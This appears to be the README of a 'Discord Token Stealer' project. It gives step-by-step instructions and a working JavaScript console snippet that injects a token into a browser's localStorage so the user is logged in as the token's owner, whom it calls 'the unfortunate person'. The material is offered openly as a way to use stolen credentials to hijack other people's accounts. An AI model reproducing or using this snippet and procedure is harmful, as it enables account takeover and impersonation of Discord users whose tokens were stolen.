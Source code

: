 # Discord Token Stealer
## How to log-in a token:
If you don't know already, here's how you can log in Discord via token (browser only):
1. Press F12 or open Developer tools and go to console.
2. Copy paste this javascript function to the console (yeah, copypaste the entire thing).
```js
function login(token) 
{ 
    setInterval(() => 
    { 
        document.body.appendChild(document.createElement `iframe`)
        .contentWindow.localStorage.token = `"${token}"` 
    }
    , 50); 

    setTimeout(() => { location.reload(); }, 2500); 
}
```
3. Now on the same console, do ```login("[TOKEN HERE]")```, wait until the window refreshes or refresh it yourself.

Ta-da, you're now logged in as the unfortunate person.
